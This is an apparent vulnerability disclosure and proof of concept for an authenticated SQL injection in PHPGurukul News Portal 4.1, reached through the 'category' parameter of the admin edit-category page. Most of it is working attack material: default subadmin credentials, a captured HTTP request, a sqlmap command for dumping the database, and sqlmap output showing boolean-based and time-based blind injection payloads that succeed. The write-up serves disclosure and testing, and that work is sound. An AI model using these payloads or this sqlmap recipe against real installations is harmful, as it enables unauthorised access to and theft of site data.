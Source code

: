 # News Portal - SQL Injection - 2
+ **Exploit Title:** News Portal - SQL Injection - 2
+ **Date:** 2024-01-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/news-portal-project-in-php-and-mysql/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7643
+ **Version:** 4.1
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number

## Description:
News Portal System  4.1 allows SQL Injection via the 'category' parameter in "http://localhost//newsportal/admin/edit-category.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost//newsportal/admin/index.php"
+ Log in with `subadmin` :`Test@123`
+ Click manage category then click edit button.
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /newsportal/admin/edit-category.php?cid=3 HTTP/1.1
Host: localhost
Content-Length: 58
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/newsportal/admin/edit-category.php?cid=3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=atd99ug4tbmj4a98tofev1o1ro
Connection: close

category=Sports&description=Related+to+sports+news&submit=
```

+ Use sqlmap to exploit. In sqlmap, use 'category' parameter to dump the database.
```
sqlmap -r r.txt -p category --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: category (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: category=Sports' WHERE 7047=7047 AND 4775=(SELECT (CASE WHEN (4775=4775) THEN 4775 ELSE (SELECT 9827 UNION SELECT 3603) END))-- -&description=Related to sports news&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: category=Sports' WHERE 8635=8635 AND (SELECT 7111 FROM (SELECT(SLEEP(5)))PUdp)-- oNUa&description=Related to sports news&submit=
---
[18:36:41] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:36:41] [INFO] fetching current database
[18:36:41] [INFO] retrieving the length of query output
[18:36:41] [INFO] retrieved: 10
[18:36:43] [INFO] retrieved: newsportal             
current database: 'newsportal'
```
+ current database: `newsportal`

![Ekran görüntüsü 2024-04-01 014150](https://github.com/BurakSevben/CVEs/assets/117217689/284af719-6b5a-41af-bffb-c51e2d8d4df0)
